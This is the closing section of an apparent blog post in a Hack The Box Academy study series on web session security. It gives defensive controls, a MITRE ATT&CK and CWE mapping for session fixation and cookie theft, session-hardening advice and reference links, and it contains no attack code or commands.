
*_Figure 13.1 — Lab execution and output verification (Page 13)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1539, T1550.004, T1078` |
| **Common Weakness Enumerations** | `CWE-384, CWE-613, CWE-614` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1539`](https://attack.mitre.org/techniques/T1539/) | **Steal Web Session Cookie** | `Credential Access` | Harvesting session tokens via XSS, network sniffing, or log disclosure |
| [`T1550.004`](https://attack.mitre.org/techniques/T1550/) | **Use Alternate Authentication Material: Web Session Cookie** | `Defense Evasion` | Replaying valid session tokens to impersonate users |
| [`T1078`](https://attack.mitre.org/techniques/T1078/) | **Valid Accounts** | `Initial Access` | Session fixation attacks forcing known session IDs onto victims |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-384`: Session Fixation](https://cwe.mitre.org/data/definitions/384.html)
- [`CWE-613`: Insufficient Session Expiration](https://cwe.mitre.org/data/definitions/613.html)
- [`CWE-614`: Sensitive Cookie in HTTPS Session Without 'Secure' Attribute](https://cwe.mitre.org/data/definitions/614.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Always regenerate session IDs upon successful authentication to completely eliminate session fixation risks.
- Set `Secure`, `HttpOnly`, and `SameSite` flags on all session cookies.
- Enforce idle timeouts and absolute session expirations, and revoke server-side session stores on explicit logout.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Session Security](https://academy.hackthebox.com/module/153) — *Official Hack The Box curriculum track*
- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html) — *Authoritative session security practices*
- [RFC 6265: HTTP State Management Mechanism](https://www.ietf.org/rfc/rfc6265.txt) — *Official cookie specification*
- [OWASP Application Security Verification Standard (ASVS) - Session Handling](https://owasp.org/www-project-application-security-verification-standard/) — *Standard verification checklist*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-30-web-attacks/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 30: Web Attacks (HTTP Verb Tampering & IDOR)</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 31 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-32-cracking-passwords-with-hashcat/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 32: Cracking Passwords with Hashcat</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
